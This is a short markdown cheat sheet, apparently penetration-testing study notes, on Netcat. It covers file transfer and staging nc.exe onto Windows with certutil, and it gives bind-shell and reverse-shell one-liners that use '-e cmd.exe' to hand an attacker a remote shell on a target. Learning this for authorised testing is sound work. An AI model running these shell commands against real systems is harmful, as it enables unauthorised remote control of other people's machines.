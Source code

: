
# Overview
Netcat (nc) is a TCP/IP Swiss army knife that is great for seething up quick and easy connections or transferring information between two hosts.

# Usage
- `nc -nv 10.4.20.244 80`
- `nc -lnvp <port>` : set up netcat listener
- -n : --nodns
- -l : --listen
- -v : --verbose
- -p : source port
- -u : --udp
- -e : `--exec <command>`
## Send Files
Transfer netcat to Windows.
1. Inside `/usr/share/windows-binaries/` : go to folder
2. `python -m SimpleHTTPServer 80` : set up hosting of the files for DL on Win
3. `certutil -urlcache -f http://<IP>/nc.exe nc.exe` : download using windows utility and save to file "nc.exe"

Listener
```bash
nc -lnvp 1234 > test.txt
```
Sender
```bash
nc -nv <ip> 1234 < test.txt
```

## Bind_Shells
A Netcat listener can be setup to execute a specific executable like cmd.exe or /bin/bash when a client connects to the listener.

\[ Attacker ] >>>------> \[ Target ]

Target - Listener
```bash
nc -lnvp 1234 -e cmd.exe
```
Attacker - Sender
```bash
nc -nv <ip> 1234
```

## Reverse_Shells
The target initiates the connection to the attacker. Great for when there is a firewall in the way. Firewalls usually allow outbound connections.

\[ Attacker ] <------<<< \[ Target ]

Attacker - Listener
```bash
nc -lnvp 1234
```
Target - Sender
```bash
nc -nv <ip> 1234 -e cmd.exe
```
